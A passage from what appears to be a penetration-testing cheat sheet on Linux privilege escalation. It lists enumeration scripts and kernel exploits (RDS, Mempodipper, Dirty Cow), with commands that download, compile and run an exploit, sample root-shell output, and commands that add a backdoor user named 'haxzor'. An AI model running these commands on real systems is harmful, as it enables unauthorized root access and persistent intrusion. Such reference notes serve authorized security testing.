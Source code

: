 -   There are a few scripts that can automate the linux enumeration process:

      - LinEnum - (Recently Updated)
      [*https://github.com/rebootuser/LinEnum*](https://github.com/rebootuser/LinEnum)
      
      - linux-exploit-suggester (Recently Updated)
      [*https://github.com/mzet-/linux-exploit-suggester*](https://github.com/mzet-/linux-exploit-suggester)
      
      -   Highon.coffee Linux Local Enum - Great enumeration script!
          `wget https://highon.coffee/downloads/linux-local-enum.sh`

      -   Linux Privilege Exploit Suggester  (Old has not been updated in years)
    [*https://github.com/PenturaLabs/Linux\_Exploit\_Suggester*](https://github.com/PenturaLabs/Linux_Exploit_Suggester)

      -   Linux post exploitation enumeration and exploit checking tools  
    [*https://github.com/reider-roque/linpostexp*](https://github.com/reider-roque/linpostexp)
    


Handy exploits:

-   CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8  
    [*https://www.exploit-db.com/exploits/15285/*](https://www.exploit-db.com/exploits/15285/)

-   CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo
    / Ubuntu x86/x64)  
    [*https://git.zx2c4.com/CVE-2012-0056/about/*](https://git.zx2c4.com/CVE-2012-0056/about/)  
    Linux CVE 2012-0056  
    wget -O exploit.c <http://www.exploit-db.com/download/18411>  
    gcc -o mempodipper exploit.c  
    ./mempodipper

-   CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux
    Kernel <= 3.19.0-73.8  
    [*https://dirtycow.ninja/*](https://dirtycow.ninja/)  
    First existed on 2.6.22 (released in 2007) and was fixed on Oct 18,
    2016  
    ./cow32  
    DirtyCow root privilege escalation  
    Backing up /usr/bin/passwd.. to /tmp/bak  
    Size of binary: 45420  
    Racing, this may take a while..  
    thread stopped  
    thread stopped  
    /usr/bin/passwd is overwritten  
    Popping root shell.

-   Run a command as a user other than root  
    sudo -u waldo /usr/bin/vim
    /etc/apache2/sites-available/000-default.conf

-   Add a user or change a password  
    /usr/sbin/useradd -p 'openssl passwd -1 thePassword' haxzor  
    echo thePassword | passwd haxzor --stdin
